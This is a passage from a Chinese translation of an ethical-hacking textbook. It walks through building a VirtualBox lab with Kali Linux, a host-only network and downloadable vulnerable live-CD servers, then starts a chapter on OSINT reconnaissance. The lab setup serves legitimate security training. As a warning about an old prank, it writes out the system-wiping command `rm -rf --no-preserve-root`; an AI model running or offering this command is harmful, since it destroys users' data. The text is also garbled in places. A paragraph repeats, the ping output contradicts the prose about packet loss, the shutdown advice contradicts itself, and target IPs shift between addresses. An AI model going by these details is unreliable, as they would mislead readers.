

图 3.1：VirtualBox 的主机网络管理器

点击“创建”（Create），这将向空列表添加一个名为 `vboxnet0` 的新主机仅网络（此名称由 VirtualBox 决定）。图 3.2 显示了添加网络后主机网络管理器的样式。

通过点击对话框顶部的“属性”（Properties）按钮，确保动态主机配置协议（DHCP）服务器正在运行，然后点击“DHCP 服务器”选项卡。勾选“启用服务器”（Enable Server）复选框，如图 3.3 所示。其他设置决定了如何向添加到主机仅网络的主机分配 IP 地址。您可以更改这些设置，但默认设置对于大多数用途已足够。

## 图示



图 3.2：显示名为 `vboxnet0` 网络的主机管理器



图 3.3：启用 DHCP

在关闭主机网络管理器对话框之前，您还应该检查“适配器”（Adapter）选项卡上的设置。点击此选项卡会带来图 3.4 所示的选项。默认情况下选择了“手动配置适配器”（Configure Adapter Manual）选项，即使您没有进行任何手动配置。可以保持原样，它应该看起来像图 3.4 所示的截图。



图 3.4：IPv4 和 IPv6 的适配器设置。

在书中，我们将坚持使用 IPv4 以保持事情（相对）简单。点击 DHCP 服务器选项卡上的“应用”（Apply），然后在主机网络管理器对话框底部点击“关闭”（Close）返回 VirtualBox 主界面。

您刚刚创建了一个主机仅网络。任何添加到此虚拟网络的虚拟机都将按照 `192.168.56.x` 的范围递增分配 IP 地址；即 `192.168.56.3`、`192.168.56.4` 等。（主机适配器和 DHCP 服务器的地址分别为 `192.168.56.1` 和 `192.168.56.2`）。

# 创建 Kali 虚拟机


您刚刚创建了一个主机仅网络。任何添加到此虚拟网络的虚拟机都将按照 `192.168.56.x` 的范围递增分配 IP 地址；即 `192.168.56.3`、`192.168.56.4` 等。（主机适配器和 DHCP 服务器的地址为 `192.168.56.1` 和 `192.168.56.2`）。

我们推荐使用 VirtualBox，因为它对于黑客用途来说足够了。也有其他替代方案，例如 VMware 或 Hyper-V，但使用这些工具的指令与本书不同。您应该从 `www.virtualbox.org` 下载并验证适用于您操作系统的最新版 VirtualBox。有关详细的安装细节以及高级用法信息，您可以查看 `www.virtualbox.org/manual`。

在接下来的示例中，我们将使用 VirtualBox 6.0。一旦下载了适用于您操作系统的 VirtualBox 版本，您应该按照提到的，通过比较 VirtualBox 网站提供的 SHA256 哈希值与本地生成的哈希值来验证下载。您还可以在 VirtualBox 网站上找到特定系统的安装指令。

在 Debian 和 Ubuntu 中，一旦下载了文件（.deb 包），可以使用以下命令安装 VirtualBox：

```
sudo dpkg -i <InstallFile>
```

> 注意：在某些 Linux 发行版上安装 VirtualBox 时可能会遇到问题。例如，您可能会看到与依赖相关的错误消息。仔细阅读完整的错误消息将让您了解如何继续操作。

安装完成后，您可以在终端中输入 `virtualbox` 来运行 VirtualBox。

接下来您应该选择“现在创建一个虚拟硬盘”选项。这将打开图 3.6 所示的“创建虚拟硬盘”对话框。创建虚拟硬盘将向上一个对话框指定的文件夹中添加一个文件。“文件位置”决定了该文件的名称。名称将添加一个文件扩展名（如 `.vdi`）。在图中，Kali Linux 是该字段的默认值。完整文件名将是 `Kali Linux.vdi`，因为选择了 VirtualBox 磁盘镜像 (VDI) 选项，这是默认选项。

您可以使用滑块或在“文件大小”下输入此文件的精确大小。您需要确保虚拟硬盘足够大，能够容纳 Kali Linux 并留出额外工具的空间。请注意，此空间在您的主机上可用，且该空间将被虚拟硬盘文件占用。根据 Kali Linux 系统要求，至少需要 20 GB。

## 第 3 章 — 构建你的黑客箱

你可以选择动态分配或固定大小的虚拟驱动器。动态分配磁盘意味着宿主机上的文件大小将根据虚拟机的要求进行增长。如果你不确定将要使用多少空间，这种方法非常有用，并且允许你在初始分配上更加灵活。另一方面，固定大小会立即创建一个与你指定的大小相同的文件，并在你的硬盘上占用精确的存储空间。你可能会发现这种选项可以略微提升性能。你可以决定哪种选项适合你的需求，但如果你存储空间充足，我们推荐 50 GB 到 100 GB 的固定大小磁盘。记住，你可以随时创建不同设置的新虚拟机，或者以后添加虚拟磁盘。

最后，点击“创建”按钮。你现在有一个虚拟机，但如果你启动它，它什么都不会做，因为还没有安装任何内容！要从下载的 ISO 镜像安装 Kali Linux，你必须将此 ISO 文件插入虚拟光驱驱动器。如果你需要，此时也可以调整其他设置，为了实现硬件的最佳配置，可能需要一些实验。

## 插入虚拟 CD

右键点击新创建的 Kali Linux 虚拟机并选择“设置”。在这里，你可以更改虚拟机的任何配置，建议你花些时间探索。现在，你可以选择“存储”来查看该虚拟机的存储设备列表。这看起来类似于图 3.7 所示。



图 3.7：虚拟存储设备

注意图中显示了两个虚拟设备：一个集成式接口（IDE）设备和一个串行高级技术附件（SATA）设备。IDE 设备是虚拟光驱，你可以在其中插入 ISO（或者如果你愿意，也可以插入真实的 CD），而 SATA 设备是你创建的虚拟硬盘。要将 ISO 插入虚拟光驱，请点击“空控制器：IDE”。你应该在那里看到一个 CD 图标。操作后，你应该看到对话框右侧的“属性”是一个光驱驱动下拉框，它可能被设置为“次主”。保持默认即可。点击下拉框右侧的 CD 图标/按钮，将显示一个菜单。从那里，你将看到“选择虚拟光盘文件”选项。点击后，你可以浏览到下载的 Kali Linux ISO 所在位置并选择它，从而插入驱动器。

## 虚拟网络适配器

先不要点“确定”。相反，选择左窗格中的“网络”以打开网络适配器设置。如果你愿意，可以启用并配置四个虚拟网络适配器。我们将使用两个。

第一个虚拟网络适配器应该连接到网络地址转换（NAT），如图 3.8 所示。你可以通过确保从下拉菜单选择了 NAT 来实现这一点。确保也勾选了“启用网络适配器”。VirtualBox 的 NAT 将允许你的 Kali Linux 虚拟机通过宿主机的连接访问互联网，这与物理机通过家庭路由器访问互联网的方式不同。这将允许你更新操作系统并下载新的程序和工具。



图 3.8：配置适配器 1

## 网络地址转换 (NAT)

网络地址转换 (NAT) 是路由器和防火墙使用的技术。它允许具有私有 IP 地址（如 `192.168.1.10` 或 `10.54.34.101`）的主机访问互联网。它是通过重写发送到私有网络主机数据包的“源地址”来实现的。

通过 Wi-Fi 连接到你家路由器的手机可能有一个内部地址 `192.168.1.5`。当你访问网站时，手机将使用 `192.168.1.5` 地址发送数据包。网站无法向此地址发送数据，因为这是全球设备共享的内部地址。它如何知道应该向哪个地址发送数据呢？

幸运的是，你的路由器会将地址重写为类似 `86.48.23.11` 的地址。这是你路由器的外部地址，由你的 ISP 指定。你的路由器接收到网站的响应，因为它存储了一些关于手机原始请求的信息，它知道将响应转发到手机的内部 IP 地址。

现在点击适配器 2 标签页。还记得你创建的仅主机网络吗？你现在将你的 Kali Linux 主机连接到它，这样它就可以连接到你创建的其他虚拟机。这将允许你使用 Kali Linux 机器中的工具来探测并破解我们设置的其他虚拟机，只要这些虚拟机也连接到同一个仅主机网络。确保在“连接到”下拉菜单中选择了“仅主机适配器”，如图 3.9 所示。如果你已经设置了单个仅主机网络（目前建议这么做），那么它应该已经被勾选了。在这种情况下，该网络被称为 `vboxnet0`。



你现在已经创建了一个虚拟机，为它分配了宿机的内存和存储空间，插入了 Kali Linux 安装文件，并设置了两个网络适配器……（后续重复内容已省略）

## 网络配置验证

`eth0` 是 Kali VM 用于通过 NAT 访问互联网的接口。你应该看到一个以 `10` 开头的地址。该地址由 VirtualBox 自动分配，并将允许通过你主机的连接访问互联网。确保 Kali Linux VM 在两个网络上都有 IP 地址，以便添加新的软件包和工具。这应该在启动时自动发生。如果没有，请尝试运行 `dhclient` 命令并提供一个网络接口作为参数。这将要求 VirtualBox DHCP 服务器为你的 Kali 分配 IP 地址。之后，使用 `ip address` 命令检查你的 IP 设置。

如果你在这一点遇到困难，请确保你已经正确执行了目前为止的所有步骤。你可能想尝试不同类型的适配器。如果你使用了 NAT，请尝试桥接适配器，反之亦然。你还应该尝试使用 Kali 的虚拟机网络管理器，这可能对你更舒服。这允许你在 GUI 中查看和更改设置，可能比命令行更具吸引力。在你花一点时间熟悉新操作系统后，就是时候设置你的第一个实验室或受漏洞的 VM 了。

> 一般而言，你不应该使用 Linux root 用户账户进行日常活动。相反，它应该在切换到标准用户之前用于安装更新。你也可以设置 `sudo`，以便能够以 root 身份运行命令，就像 Ubuntu 中那样。

在本书中，我们要求从 Kali 运行的任何命令都假设你是 root 用户。如果你愿意，可以使用 `sudo` 代替。了解过度使用 root 用户账户后果的最好方法之一是在虚拟机中这样做。如果你搞砸了（例如，不经意地删除了操作系统），至少它发生在虚拟机里。如果有人指示你运行 `rm -rf --no-preserve-root` 来获取软件更新，他们实际上是在鼓励你一次性删除所有文件。曾经，Linux 新手会在网络作者的鼓励下使用 `rm -rf /` 命令，而这个命令会删掉他们新安装的系统，以供那些鼓励他们运行该命令的人取乐。现在，这需要 `--no-preserve-root` 选项，也许这可以作为某些新手的理性检查。不要做这个老笑话的受害者——相反，通过 `cat /dev/audio` 来吸取宝贵的教训。

## 实验室

为黑客设置 VM 与上一个示例中的设置 VM 几乎完全相同。创建一个新 VM 并设置以下选项（如图 3.11 所示）：

1. 给你的 VM 起个名字；例如，Hacker House Lab。
2. Machine Folder 选项可以保持不变。
3. 选择 Linux 2.6 为类型。
4. 选择 Linux 2.6 / 3.x / 4.x (32-bit) 作为 VM 的版本。
5. 分配 1024 MB RAM（如果内存允许则分配更多）。
6. 点击“Do Not Add Virtual Hard disk”按钮，因为此机器将仅从 live CDs 运行。



图 3.11：设置实验室

你需要一个 ISO 或 CD 文件插入此 VM 中。可以从 Hacker House 下载两个这样的 ISO。第一个是作为我们 "Hands-on Hacking" 课程提供的试用版虚拟邮件服务器。第二个是我们为这本书制作的 VM。它包含了各种服务器的特性。两者将在后续章节中被提到。邮件服务器实验室可以通过以下 URL 下载：

```
www.hackerhouse.com/hh-mailserver-v1-i1386.hybrid.iso
```

多功能书籍实验室可以从这里下载：

```
www.hackerhouse.com/hh-booklab-v1-i1386.hybrid.iso
```

你不需要同时运行这两个服务器——我们每次只会攻击其中一个。你可以在需要时通过交换机器虚拟 CD 中的 ISO 来使用该 VM。“live” CD 设计为从 CD 本身运行——没有安装选项。一切都已准备就绪，启动即可使用。如果你在带有邮件服务器的情况下启动 VM，你应该看到 Hacker House 启动菜单，如图 3.12 所示，随后是基础登录界面，如图 3.13 所示。你不需要登录或尝试直接与此 VM 交互。相反，你将在第 6 章“电子邮件”中从你的 Kali Linux 机器通过攻击进入它。

```
GNU GRUB version 0.97 (6396 lower / 10749808 upper memory)
Debian GRUB/Linux - live, kernel 3.16.0-4-amd86
Debian GRUB/Linux - live, kernel 3.16.0-4-amd86 (fail-safe mode)
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
  00 0000 0000 0000  0000 0000 0000 0000
```



使用 `t` 和 `i` 键选择项目。按回车进入选的操作系统，`e` 在启动前编辑，或 `c` 进入命令行。高亮项将在 9 秒后自动启动。

图 3.12：启动菜单

你从登录界面需要的一个信息是 IP 地址，它显示在 "host" 行下。在图 13 中，它是 `192.168.56.4`。IP 地址对你来说可能不同，取决于你在设置期间输入的设置。该 VM 需要一个地址，以便你从 Kali VM 访问它。当你第一次在 VM 内使用鼠标时，VirtualBox 会通知你退出主机的快捷键。记住这一点很重要，因为卡在 VM 内部会令人沮丧。默认主机键是右 Ctrl。

不需要安全关机——直接掉电可能会损坏虚拟磁盘和文件。



图 3.13：邮件服务器登录提示

记住在虚拟机术语中，你的物理机是 host，在该主机上运行的虚拟机是 guests（访客）。VirtualBox 提供名为 `Guest Additions` 的额外下载，也可以从 `VirtualBox.org` 下载。要在 Kali VM 上启用全屏，你需要安装 Guest Additions。可以通过 Kali VM 顶部的 VirtualBox 菜单点击 Insert Guest Additions 来实现。这将自动挂载一个 `/media/cdrom0` 的虚拟 CD。某些发行版会自动安装 Guest Additions，但在 Kali Linux 中可能不起。使用 `ls /media/cdrom0` 检查虚拟 CD 的内容，这是一个 shell 脚本。你可以使用命令 `sh /media/cdrom0/autorun.sh` 运行它，可以使用 root 用户身份或使用 `sudo`。你不应该对实验室 VM 这样做。

## 测试你的环境

你现在主机网络内运行着几个虚拟机。这种设置被称为虚拟环境。在继续之前，通过一些基础测试确保机器之间可以通信。在你的 Kali VM 内部打开一个新的终端。一种方法是按下键盘上的 Windows 键（Apple 的 command 键），这将弹出搜索栏。开始输入 terminal，你应该看到一个终端图标。选中该图标后按回车启动程序。或者，将鼠标指针移动到屏幕左侧以显示常用工具图标菜单，然后选择终端。从现在起你将在终端花费大量时间。你可以使用键盘上的 `Ctrl+Shift+T` 打开新标签页。有时你需要让一个标签页运行或在另一个标签页中执行其他操作以使攻击生效。适用时我们会指出。

第一个使用的命令是 `ping` 命令。我们将尝试 "ping" 邮件服务器，以确保从你的 Kali Linux VM 可以访问它。你需要邮件服务器的 IP 地址来执行此操作。可以在登录界面找到，如图 3.13 所示（此图中 IP 地址为 `192.168.56.54`）。IP 地址对你来说可能不同，取决于设置期间输入的设置。你需要输入的完整命令是 `ping <TargetIP>`，其中 `<TargetIP>` 是你虚拟机的 IP 地址。如果可以访问邮件服务器，你将看到如下输出：

```
PING 192.168.56.54 (192.168.56.54) 56(84) bytes of data.
64 bytes from 192.168.56.54: icmp_seq=1 ttl=128 time=0.617 ms
64 bytes from 192.168.56.54: icmp_seq=2 ttl=128 time=0.880 ms
64 bytes from 192.168.56.54: icmp_seq=3 ttl=128 time=0.760 ms
64 bytes from 192.168.56.54: icmp_seq=4 ttl=128 time=0.752 ms
```


```
^C -- 192.168.56.4 ping statistics ---
9 packets transmitted, 9 received, 0% packet loss, time 164ms
rtt min/avg/max/mdev = 0.617/0.733/0.880/0.076 ms
```

输出显示发送了 9 个数据包，但没有一个被接收。由于你的 Kali Linux 虚拟机和邮件虚拟机运行在通过虚拟网络的物理硬件上，理论上不应该出现连接性问题。如果你无法成功从邮件服务器获取响应，你应该检查目前涵盖的步骤，并确保已正确配置了一切。记住，你正在从 Kali Linux 机器 ping 邮件服务器虚拟机，这两个虚拟机都必须连接到你创建的仅限主机网络（`host-only network`）。如果你对目前涵盖的内容都很熟悉，并且能够从 Kali Linux 虚拟机 ping 通你的漏洞虚拟机，就可以继续下一节了。对于勇敢的黑客，`RFC 792` 包含了 ICMP 的细节以及如何使用它来“ping”主机。

## 创建漏洞服务器

现在你已经了解了使用 `VirtualBox` 虚拟机的基础知识，可以尝试专门为了黑客攻击的目的而设置虚拟机。这是业余爱好者和资深黑客学习新技能的流行方法。只需下载你感兴趣的系统 ISO 镜像并安装到新的虚拟机中。你不需要创建自己的启动光盘，但可以像之前使用 Kali Linux 那样，安装特定的软件以从虚拟机内部进行检查。然后，你可以安装特定的软件，例如 Web 服务器软件或域名系统（`DNS`）服务器。

你还可以在网络上找到分发的漏洞虚拟机或实验室。黑客的漏洞邮件服务器只是一个例子，但还有很多其他，例如 `VulnHub` (www.vulnhub.com) 等网站上的“boot2root”挑战赛。

在接下来的章节中，我们将为你提供一些关于为测试和训练目的设置虚拟机的额外建议。当你读完这本书后，应该尝试安装 `Windows XP`，并看看攻破它需要多长时间。

> **提示** 禁用 `Windows XP` 个人防火墙以开启简单模式；如果你想接受更困难的挑战，请开启它以及网络浏览器。

虚拟机的另一个伟大用途是在安全的沙箱中测试你打算在客户端机器上运行的漏洞利用或工具，或者在隔离环境中用恶意软件感染系统以便进行研究。你可以先在虚拟化环境中测试程序，看看它们在释放到系统之前会做什么。请注意，并非所有恶意软件在虚拟机内部的行为都与物理硬件上相同。因此，这并不是万无一失的方法。

> **警告** 作为一个黑客，你永远不要将恶意软件释放到任何不属于你的系统上——没有任何例外。这样做无疑会让你陷入法律麻烦。如果你必须在自己的物理设备上运行恶意软件，请确保它不会感染其他系统。该设备绝对不应连接到互联网或任何网络，也不应让软件（包括恶意软件本身）允许机器联网（例如通过 `Wi-Fi` 连接）。

存在被称为虚拟机逃逸（`hypervisor escapes`）或云爆发（`cloudbursts`）的漏洞，它们可以导致虚拟机中的程序代码运行在你的主机计算机上。这些漏洞在现实世界中很少见，只要你保持 `VirtualBox`（或其他虚拟机管理器软件）更新，它们就不可能需要担心。尽管如此，在首次在系统上运行新的或不熟悉的代码时，仍要格外小心。

## 总结

完成本章后，你应该有一个运行着 `VirtualBox` 的宿主操作系统，其中有两个虚拟机（或称为客机）。一个虚拟机运行着 `Kali Linux`，另一个可以用于运行漏洞邮件服务器以及为本书创建的漏洞实验室下载包。这就是你尝试书中其余章节练习所需的所有内容。在某些章节中，我们将提供关于设置你自己的漏洞虚拟机的额外建议，用于攻击特定的软件或技术。我们还将针对真实世界系统使用工具和技术；然而，在出现这种情况时我们会明确说明。

你已经看到存储设备是如何被加密的，并且在应对使用加密邮件的人员时，你有一些选项可以探索使用哪一种。当你开始为客户、雇主或漏洞赏金计划工作时，这些知识将变得特别有用且必要。

从现在开始，我们运行的任何命令都应该在 `Kali Linux` 虚拟机内部的终端执行。在下一章中，你将使用 `Kali Linux` 虚拟机针对模拟的真实世界系统，所以你暂时不需要漏洞虚拟机。我们将在第 5 章“域名系统”中回到漏洞虚拟机。

# 第 4 章

## 开源情报收集 (OSINT)

一个意图以某种方式获取组织计算机网络访问权的恶意黑客几乎会先做功课；即收集有关该组织及其计算机系统的信息。他们将研究在该组织工作或与之关联的个人，并编译域名、主机名、IP 地址、URL、电子邮件地址和潜在密码的列表，而整个过程无需向与目标相关的任何设备发送单个数据包。

请将恶意黑客想象成一个专注、勤奋且细致的个体（或一组个人），并清除你脑海中任何其他与“黑客”一词相关的意象。

情报收集过程无论是由我们还是他们执行，都利用了免费提供的公开信息，这些信息对于任何想要它的人都是可见的，且知道在哪里。它没有受到任何形式的保护，获取它不需要任何费用。因此，它是开源的。作为渗透测试员或伦理黑客，你必须像恶意黑客一样勤奋，在开始任何实际攻击之前通过情报收集来构建对目标的画像。恶意黑客可能甚至不会访问目标网站，但公司通常希望进行开源情报（`OSINT`）评估，通过这种评估，可以发现那些容易被忽略的漏洞和风险。

> **注意** 测试人员应始终就哪些系统将进行测试以及这些系统位于何处达成一致。然而，在评估阶段，客户的系统实际上并不会被测试。

## 你的客户需要 OS 审查吗？

并不是每个客户都希望或需要你为他们执行 `OSINT`。作为伦理黑客工作时，重要的是记住你是在为客户提供服务。这项服务应该为他们的资金提供良好的价值，对范围内定义的系统进行详尽的分析。如果客户不需要 `OSINT` 的额外测试（和时间），那么就不应该向他们推销。大多数项目都需要某种程度的开源情报审查，但通常不需要对所有员工的社交媒体帖子进行深度挖掘，将探测限制在书中涵盖的常见攻击范围内。在理想情况下，你的客户会聘用你的服务更长时间，以便你模拟恶意黑客的努力，因为组织不太可能付钱让你花费大量时间在网上搜索信息。

本章假设客户（我们通常称为目标）要求进行更全面且明确定义的 `OSINT`。`OSINT` 收集大部分是被动活动，其目的是识别目标或系统、软件类型和版本，这些可以在测试的后续阶段使用。之后，我们将展示如何探测系统并向目标发送数据包，这被称为测试的活跃阶段。现在，你将从公共数据源收集信息。

## 你在寻找什么？

`OSINT`（开源情报）的目标是获取可以帮助你执行攻击的信息，以便在未经所有者授权的情况下访问计算机系统。当然，在进行任何操作之前，你应该先获得所需的权限。如果你识别出了诸如用户名和密码等信息，那太棒了，但你还需要输入这些信息的地方。记住，在此时，你对目标一无所知，所以你需要找到网站和 Web 应用程序。你需要找到带有公网 IP 地址并连接到互联网的主机（或计算机）。你甚至可能会发现与非公共计算机或内部主机的信息。这非常有用，并且在你获得内部资源访问时将派上用场。你将寻找 `VPN` 门户、邮件服务器、Web 服务器、数据库服务器、`Linux` 机器、`UNIX` 机器、`Windows` 机器、`IoT` 设备——几乎任何连接到互联网并属于目标网络的设备。

你想构建一个目标 IP 地址、主机名和域名的列表。在进行所有搜索时，你不想将自己限制在单一信息源上。你想通过各种搜索引擎从公司网站以及属于公司员工的社交媒体账户中抓取内容。你还可以在其他公共数据库中发现大量信息，例如属于互联网名称分配机构（`ICANN`）和许多域名注册的数据库。

你永远不要将自己限制在单一类型的数据库或资源上。例如，将 Web 搜索限制为使用 `Google` 是没有效率的，因为 `Google` 存储的信息与 `百度` 或 `Bing` 等替代方案并不相同。个人的社交媒体账户和互联网活动（如公共论坛上的帖子或拍卖网站上列出的项目）可以产生诸如下的信息，例如他们偏好的软件选择、持有的证书或公司相关活动的照片。

总结来说，你通常应该寻找以下关键信息或此类类型的信息：

- 用户名、个人资料名称和/或电子邮件地址
- 密码（私钥、`PIN` 等）
- 域名
- 主机名
- IP 地址（外部和内部）
- 软件和操作系统的类型、名称和版本
- 技术文档，例如系统的用户指南

事实上，你正在寻找任何与你的目标相关、并且可能允许恶意黑客深入了解运行在你的目标上的计算机系统和软件的信息。你的工作是找到这些信息，对其进行处理，并在安全相关的背景下向你的客户报告发现。

## 在哪里可以找到它？

你寻找情报的地点类型已经提到，但这里有一个方便的非详尽列表作为总结：

- 个人网站；例如，博客
- 尽可能多的搜索引擎
- 社交媒体；例如，`LinkedIn`、`Facebook`、`Twitter` 和 `Instagram`
- 其他常见账户，如 `GitHub`、论坛、新闻组和邮件列表
- 公共数据库（`ICANN`、无线接入注册局、域名注册局、图书馆和电话簿）
- 点对点文件共享网络（可以使用 `BitTorrent` 客户端访问）

